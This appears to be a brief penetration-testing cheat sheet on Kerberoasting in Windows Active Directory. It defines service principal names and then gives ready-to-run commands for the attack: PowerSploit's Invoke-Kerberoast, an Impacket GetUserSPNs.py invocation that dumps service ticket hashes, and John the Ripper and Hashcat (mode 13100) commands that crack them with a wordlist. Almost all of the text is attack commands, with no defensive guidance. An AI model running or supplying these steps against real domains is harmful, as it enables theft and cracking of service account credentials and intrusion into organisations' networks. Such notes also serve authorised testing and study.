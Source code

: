 ### Service Principal Names
Service principal names (SPNs) are used to identify services on Windows.

### Get user SPNs
**PowerSploit**
Old PowerShell command that can be used from a domain-connected client to retrieve the hash.
```
Invoke-Kerberoast
```

**Empire**
Empire is another PowerShell library for post exploitation that includes a set of tools that can be used to get SPN records.

**Impacket**
It is a Python library hosting scripts that can interact with a Windows domain controller. For kerberoasting the script, GetUserSPNs.py can be used with any user's valid domain credentials.
```
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain/username:password> -dc-ip <dc_IP> -request > output_hash.txt
```

### Cracking the Hash
**JohnTheRipper**
```
john hash.txt /usr/share/wordlists/rockyou.txt
```

**Hashcat**
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- `13100`: Kerberos 5 TGS-REP hash